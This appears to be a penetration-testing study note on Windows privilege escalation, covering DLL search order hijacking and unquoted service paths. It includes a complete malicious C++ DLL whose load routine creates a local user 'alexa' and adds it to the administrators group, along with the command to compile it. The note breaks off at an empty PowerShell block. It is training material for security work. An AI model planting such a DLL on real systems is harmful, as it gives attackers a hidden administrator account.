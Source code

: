 ## Hijack service DLLs
- With safe DLL search enabled, the standard order of search for DDLs are 
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```
- With safe DDL search disabled, the current directory is searched at position 2
- We can try placing a malicious DDL (with the name of the missing DDL) in a path of the DDL search order
- So see which DDLs get loaded by an application, we can use `procmon.exe`
> [!IMPORTANT]
> Process Monitor itself needs administrative privileges to collect this data. We could however extract the service binary to a local machine and use Process Monitor to list all DLL activity
- We can craft our own malicious DDL and compile it
```C++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user alexa init_12345 /add");
  	    i = system ("net localgroup administrators alexa /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

```zsh
x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```
- This code will get executed under the privilege of whoever opens the application that is loading the DLL. In the above case, we need someone with administrative privileges since we are adding alexa to the administrators group
## Abuse Unquoted Service Paths
- If we have write access to a service's main directory or subdirectory but can not replace file within, we can check if the service path is unquoted and contains one or more spaces
- For example, the unquoted service binary `C:\Program Files\My Program\My Service\service.exe` will get interpreted in the following order while loading
```powershell
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```
- We can list running and stopped services with `wmic` or `Get-CimInstance`
```powershell
```